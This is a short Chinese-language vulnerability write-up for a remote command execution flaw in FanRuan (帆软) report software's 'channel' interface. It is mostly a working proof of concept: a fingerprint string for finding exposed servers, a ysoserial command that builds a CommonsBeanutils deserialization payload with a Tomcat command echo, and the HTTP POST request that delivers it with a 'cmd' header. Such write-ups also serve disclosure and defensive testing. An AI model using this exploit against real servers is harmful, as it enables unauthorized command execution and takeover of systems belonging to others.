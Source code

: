 # 帆软报表 channel 远程命令执行漏洞

## 漏洞描述

帆软报表 channel 接口存在远程命令执行漏洞, 攻击者通过漏洞可以获取服务器权限，攻击服务器

## 漏洞影响

帆软报表

## 网络测绘

```
"Powered by 帆软"
```

## 漏洞复现

登陆页面

![image-20230828143655329](images/image-20230828143655329.png)

验证POC

```
java -jar ysoserial-1.5-su18-all.jar -g CommonsBeanutils1183NOCC -p 'EX-TomcatEcho' -ch "cmd" > fine10.bin

POST /webroot/decision/remote/design/channel HTTP/1.1
Content-Type: application/json
Host: 
cmd: id
Connection: close

{{gzip(file(fine10.bin))}}
```

![image-20230828143710052](images/image-20230828143710052.png)